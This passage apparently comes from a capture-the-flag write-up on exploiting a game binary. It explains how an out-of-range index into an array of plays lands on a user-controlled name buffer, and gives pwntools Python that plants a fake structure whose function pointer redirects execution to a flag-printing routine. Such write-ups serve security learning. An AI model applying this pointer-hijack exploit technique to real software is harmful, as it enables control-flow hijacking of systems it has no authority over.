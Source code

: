 The end result is that `((void*)game_ctx->array_of_plays)+0xd000 == (void*)game_ctx`, meaning that a sufficiently high value of `game_ctx->current_play` in `game_ctx->array_of_plays[game_ctx->current_play];` will pull data from `game_ctx`. In particular, we'll want to index all the way to `game_ctx->player_name[]`.

```c
#define PLAYER_NAME_SIZE 1024
struct game_ctx_t
{
    uint64_t user_points;
    uint64_t pc_points;
    uint32_t current_play : 12;
    uint32_t ascii_art_enabled : 2;
    char player_name[PLAYER_NAME_SIZE];
    struct play * array_of_plays;
};
```

`player_name[]` is user-controllable as a result of `change_user_name()`:

```c
bool change_user_name() {
    ....
    //Get user input
    if(NULL == fgets(game_ctx->player_name, PLAYER_NAME_SIZE, stdin))
        SET_STATUS_TO_FALSE_AND_BREAK(status)
    ....
}
```

Getting an arbitrary `struct play current_play` is now an implementation problem. We'll start by earning 5 points:

```python
for i in range(5): win_round()
```

Then we'll increment `game_ctx->current_play` to an _appropriate_ value, based on `sizeof(struct play) == 24` and `game_ctx->player_name == game_ctx->array_of_plays+0xd018`:

```python
def skip(n: int):
    choose(3)
    r.recvuntil('[  ]\b\b\b')
    r.sendline(str(n))
OFFSET_TO_NAME = 0xd018
SIZEOF_PLAY = 24
while current_play < OFFSET_TO_NAME//SIZEOF_PLAY:
    toskip = min([255, (OFFSET_TO_NAME-current_play*SIZEOF_PLAY)//SIZEOF_PLAY+1])
    current_play += toskip
    skip(toskip)
```

We'll follow that up by inserting the desired fake `struct play` inside `player_name`:

```python
choose(5) # change username
r.recvuntil('new username: ')
fakeplay = p32(1) + b'a'*10 + pack(context.binary.symbols['print_flag']+0x66) + pack(1) # no idea where the b'a'+10 comes from.
'''struct play { //sizeof 24
    uint32_t id = 1;
    void (* animation_function)(enum handsigns, enum handsigns) = print_flag+0x66;
    enum handsigns handsign = 1;
};'''
r.sendline(b'a'*(current_play*SIZEOF_PLAY-OFFSET_TO_NAME)+fakeplay)
```
